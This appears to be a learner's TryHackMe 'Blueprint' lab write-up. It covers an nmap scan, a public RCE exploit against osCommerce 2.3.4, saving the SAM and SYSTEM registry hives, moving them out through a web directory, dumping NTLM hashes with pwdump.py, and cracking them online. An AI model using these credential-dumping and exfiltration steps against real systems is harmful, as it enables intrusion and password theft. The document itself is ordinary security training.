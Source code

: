 ## TryHackMe - Blueprint Methodology

This is the attack methodology I used for TryHackMe's Blueprint box.
I have based this document on the Intrusion Kill Chain by Lockheed Martin:
Reconnaissance > Weaponization > Delivery > Exploitation > Installation > Command & Control > Actions on Objectve

---
### Environment
#### Operating System
latest kali-VM
#### Tools
N/A

### Methodology
#### Objectives/Flags
 "Lab" user NTML hash decrypted
 root.txt
#### Reconnaissance
First I checked for open ports using a basic nmap scan
```bash
nmap -t4 <TargetIP>
  PORT      STATE    SERVICE
  80/tcp    open     http
  135/tcp   open     msrpc
  139/tcp   open     netbios-ssn
  443/tcp   open     https
  445/tcp   open     microsoft-ds
  512/tcp   filtered exec
  1152/tcp  filtered winpoplanmess
  1875/tcp  filtered westell-stats
  3306/tcp  open     mysql
  4662/tcp  filtered edonkey
  7741/tcp  filtered scriptview
  8080/tcp  open     http-proxy
  9010/tcp  filtered sdr
  20005/tcp filtered btx
  26214/tcp filtered unknown
  27000/tcp filtered flexlm0
  49152/tcp open     unknown
  49153/tcp open     unknown
  49154/tcp open     unknown
  49158/tcp open     unknown
  49159/tcp open     unknown
  49160/tcp open     unknown
```
I could see some HTTP open ports and decided to see what was accessible
```
http://<TargetIP>:8080/
	http://<TargetIP>:8080/oscommerce-2.3.4/catalog/
```
I could determine the framework being used for the commerce page was oscommerce-2.3.4. Using this information I visited Exploit-DB to see what was available.
```
https://www.exploit-db.com/exploits/50128
```
#### Exploitation
Using the remote-code-execution exploit from the DB, the target was attacked
```
python 50128.py http://<TargetIP>:8080/oscommerce-2.3.4/catalog/
```
Once the attack was successful, I now had RCE shell access into the target.

#### Actions on Objective
I started by trying to determine the nature of the host and explore it's file directories
```
whoami
  nt autheority\system

DIR C:\users
  Administrator
    C:\users\Administrator\Desktop\root.txt.txt
      more C:\users\Administrator\Desktop\root.txt.txt
        THM{*}
  DefaultAppPool
  Lab
```
The file-system was Windows and exploring userfiles I happend to come accross my first objective ```root.txt.txt```. According to my mentor the filename was done this way to obfuscate it from broad-searches.
My next objective was to locate and extract the NTML hash of the "Lab" user.

I must admit I didn't know what NTML was or where it was found however I had a reasonable understanding through hack-sims that this was going to be a hashed password found somewhere on the system. After some googling I was able to understand that this hash was most likley going to be located in the Windows "SAM" file generally located at ```C:\Windows\system32\config\SAM```. (source: https://security.stackexchange.com/questions/113295/location-of-password-hashes-on-a-windows-local-machine)
```
DIR C:\Windows\system32\config\
```
I could see that the file existed on the system and my goal was to now try and exfiltrate this file/data out of the target to my local machine. I had a lot of trial and error trying to get at this file. Various failures included; printing it's contents, copying it to the visible HTTP directory, Uploading it to a local-http/ftp server.
Eventually I stubled upon a page which explained how this data could be exported from it's registry key. (source: https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-hashes-from-sam-registry)
```
reg save hklm\system system
reg save hklm\sam sam
```
With the data exported out of the system-files I could now move them around without any system-protection. I moved these files to the visible HTTP directory.
```
<missing command> http://<TargetIP>:8080/oscommerce-2.3.4/docs/
```
From my localhost I was able to save these files. My next step was to dump the hashes out of the files. Using the website I had found earlier I had to find a tool that was going to assit me.
```
python pwdump.py /home/kali/tools/TryHackMe/Blueprint/system /home/kali/tools/TryHackMe/Blueprint/sam
  Administrator:500:<hash>:<hash>:::
  Guest:501:<hash>:<hash>:::
  Lab:1000:<hash>:<hash>:::
```
Success, I've got the hash of the "Lab" user and now needed to decrypt this. I spent some time trying to mess with HashCat to crack it but after some more googling I was directed to Cracktation.
```
https://crackstation.net/
   Insert <hash> -> crack
     <password>
```
I spared myself the system resources and was able to instantly receive the cleartext password.

---
### After-action
#### What I've learned
This was the first "real" box that I've had a go at and had a blast from the whole experience. My mentor had helped my connect the dots on recconaissance and exploitaion through finding online resources/code. Once I was in, a majority of my frustrations was trying to understand what NTML was and more specifically how I was going to extract that information to my localhost. Lastly why burn the computing power when an online service can crack passwords for you.
#### What I would've done differently
Given that this was my first box, I was a bit messy with what I was actually doing on the Target Machine. I had rebooted it by attempting to run arbitrary files and possibly executed programs in trial and error.
I definitely would like to record what actions I had taken (including timestamps?) and what failures I had run into for posterity.
Lastly, I should have spent the extra effort in removing the extracted system files from the export location and even the visible HTTP directory to reduce my footprint.

